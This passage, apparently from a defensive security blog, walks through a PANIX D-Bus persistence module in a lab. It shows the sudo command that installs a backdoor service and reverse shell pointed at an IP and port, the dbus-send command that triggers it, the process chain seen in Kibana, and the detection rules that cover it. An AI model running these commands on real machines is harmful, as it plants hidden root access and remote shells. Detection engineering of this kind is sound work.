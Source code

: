This configuration defines a D-Bus policy that permits any user or process to own, send messages to, and interact with the `org.panix.persistence` service, effectively granting unrestricted access to it. After restarting the `dbus` service, the setup is complete.

To interact with the service, the following command can be used:

```
dbus-send --system --type=method_call /
--dest=org.panix.persistence /org/panix/persistence /
org.panix.persistence.Method
```

This command sends a method call to the D-Bus system bus, targeting the `org.panix.persistence` service, invoking the `org.panix.persistence.Method` method on the `/org/panix/persistence` object, effectively triggering the backdoor. 

Let’s run the PANIX module with the following command line arguments:

```
> sudo ./panix.sh --dbus --default --ip 192.168.1.100 --port 2016

[+] Created/updated D-Bus service file: /usr/share/dbus-1/system-services/org.panix.persistence.service
[+] Created/updated payload script: /usr/local/bin/dbus-panix.sh
[+] Created/updated D-Bus config file: /etc/dbus-1/system.d/org.panix.persistence.conf
[!] Restarting D-Bus...
[+] D-Bus restarted successfully.
[+] D-Bus persistence module completed. Test with:

dbus-send --system --type=method_call --print-reply /
--dest=org.panix.persistence /org/panix/persistence /
org.panix.persistence.Method
```

Upon execution of the `dbus-send` command:

```
dbus-send --system --type=method_call --print-reply /
--dest=org.panix.persistence /org/panix/persistence /
org.panix.persistence.Method
```

We will take a look at the documents in Kibana:

![PANIX D-Bus module execution visualized in Kibana](/assets/images/the-grand-finale-on-linux-persistence/image4.png)

Upon PANIX execution, the `org.panix.persistence.service`, `dbus-panix.sh`, and `org.panix.persistence.conf` files are created, successfully setting the stage. Afterwards, the `dbus` service is restarted, and the dbus-send command is executed to interact with the `org.panix.persistence` service. Upon invocation of the `org.panix.persistence.Method` method, the `dbus-panix.sh` backdoor is executed, and the reverse shell connection chain (`dbus-panix.sh` → `nohup` → `setsid` → `bash`) is initiated.

Let’s take a look at our detection opportunities:

*Detection and endpoint rules that cover D-Bus persistence*

| Category | Coverage |
| :---- | :---- |
| File | [D-Bus Service Created](https://github.com/elastic/detection-rules/blob/fb13b89f8d277ee78d4027a8014ad67023aa167c/rules/linux/persistence_dbus_service_creation.toml) |
|      | [Potential Persistence via File Modification](https://github.com/elastic/detection-rules/blob/ac541f0b18697e053b3b56544052955d29b440c0/rules/integrations/fim/persistence_suspicious_file_modifications.toml) |
| Process | [Suspicious D-Bus Method Call](https://github.com/elastic/protections-artifacts/blob/3fac07906582ca9615d0e291a4629445fd5ca37b/behavior/rules/linux/execution_suspicious_d_bus_method_call.toml) |
|         | [Unusual D-Bus Daemon Child Process](https://github.com/elastic/detection-rules/blob/1851ab91fdb84ac2c1fc9bf9d0663badadd0d0a7/rules/linux/persistence_dbus_unsual_daemon_parent_execution.toml) |
